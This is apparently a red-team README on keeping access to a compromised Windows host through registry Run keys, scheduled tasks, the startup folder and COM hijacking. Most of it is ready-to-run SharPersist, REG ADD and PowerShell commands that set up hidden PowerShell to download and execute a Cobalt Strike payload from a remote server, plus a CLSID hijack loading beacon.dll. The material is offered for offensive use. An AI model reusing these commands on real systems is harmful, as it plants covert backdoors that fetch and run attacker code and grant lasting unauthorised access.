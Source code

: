 # Methods of regaining or maintaining access to a compromised host

Following methods can be used to regain access to a compromised host.

#### <b>1.</b> <a href="https://github.com/incredibleindishell/Red_Team_Op/blob/main/Host_persistance/README.md#1-registry-autoruns-1">Registry Autoruns</a>
#### <b>2.</b> <a href="https://github.com/incredibleindishell/Red_Team_Op/blob/main/Host_persistance/README.md#2-scheduled-tasks-1">Scheduled Tasks</a>
#### <b>3.</b> <a href="https://github.com/incredibleindishell/Red_Team_Op/blob/main/Host_persistance/README.md#3-startup-folder-1">Startup Folder</a>

To create the payloads for above mentioned scenarios, user can use SharPersist tool from below mentioned Github Repo:

https://github.com/mandiant/SharPersist

SharPersist allows a user to create payload for different backdooring techniques. 

It supports following options/arguments 

    -t: Persistence technique
    -c: Command to execute
    -a: Arguments of command to execute (if applicable)
    -f: File to create/modify
    -k: Registry key to create/modify
    -v: Registry value to create/modify
    -n: Scheduled task name OR Service name
    -m: Method(add, remove, check, list)
    -o: Optional add-ons
    -h: Help page


#### 1. Registry Autoruns
---
To add the registry entry, either use Shapersist or do it manually. 

<b>Using SharPersist:</b>
    
a) Current user: 

Below mentioned command will add a new registry entry under "current user" registry `(HKEY_CURRENT_USER)`. When user will login to the machine, this regsitry key will execute the command which will make an HTTP request to the Cobalt Strike server to download the PowerShell payload and will execute it.

    SharPersist.exe -t reg -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))" -k "hkcurun" -v "b0x" -m add

b) Local Machine <b>(Admin privilege required)</b>: 

Below mentioned command will add a new registry entry under "Local Machine" registry `(HKEY_LOCAL_MACHINE)`. When user will login to the machine, this regsitry key will execute the command which will make an HTTP request to the Cobalt Strike server to download the PowerShell payload and will execute it.

    SharPersist.exe -t reg -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))" -k "hklmrun" -v "b0x" -m add

<b>Manually:</b>
    
a) Current user: 

Below mentioned command will add a new registry entry under "current user" registry `(HKEY_CURRENT_USER)`. When user will login to the machine, this regsitry key will execute the command which will make an HTTP request to the Cobalt Strike server to download the PowerShell payload and will execute it.

    REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run  /t REG_SZ  /v box2 /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))"

b) Local Machine <b>(Admin privilege required)</b>: 

Below mentioned command will add a new registry entry under "Local Machine" registry `(HKEY_LOCAL_MACHINE)`. When user will login to the machine, this regsitry key will execute the command which will make an HTTP request to the Cobalt Strike server to download the PowerShell payload and will execute it.

    REG ADD HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run  /t REG_SZ  /v box2 /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))" 


    
#### 2. Scheduled Tasks
---

In local machine, open PowerShell console and execute below mentioned commands to generate the base64 encoded text of the Cobalt strike's PowerShell based beacon payload:

    PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://cobalt_strike_server/poershell_payload"))'
    PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

In Cobalt strike beacon console, execute below mentioned command (replace text Base_64_encoded_payload_goes_here with the output generated in the above step) to add a new scheduled task with name `b0x` which will execute after every one hour:
    
    execute-assembly C:\Path_to_sharpersist\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc Base_64_encoded_payload_goes_here" -n "b0x" -m add -o hourly

<b>Example:</b>
In below mentioned example, adding a task which will make an HTTP request to Teamserver on URL `http://192.168.56.104/ps.ps1` and will execute the PowerShell payload whenever user will logon to the machine:

     SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))" -n "Updater" -m add -o logon


#### 3. Startup Folder
---

    SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))"  -f "b0x" -m add
    
        
#### 4. Com Hijack

    function pwn {
     $Tasks = Get-ScheduledTask

    foreach ($Task in $Tasks)
    {
    if ($Task.Actions.ClassId -ne $null)
    {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
     }
    }
    }
    }
    
 Import the PowerShell code using below mentioned command:
 
    powershell-import /path_to/enu.ps1
   
 Now, execute the code using Powerpick or PowerShell
 
    powerpick pwn

or

    powershell pwn

Below mentioned command will show the information regarding CLSID from the HKCR registry entry

    powershell Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | fl
    
 Now execute below mentioned commands to verify whether entry for CLSID exists in HKCU or not:
 
    powerpick Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize
    
 Output is showing, the entry for CLSID exists in HKLM only.
 
    powerpick New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
    powerpick New-Item -PATH "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -Name "InprocServer32" -Value "c:\Users\Administrator\Desktop\beacon.dll"
    powerpick New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}\InprocServer32" -Name "ThreadingModel" -Value "Both"
 
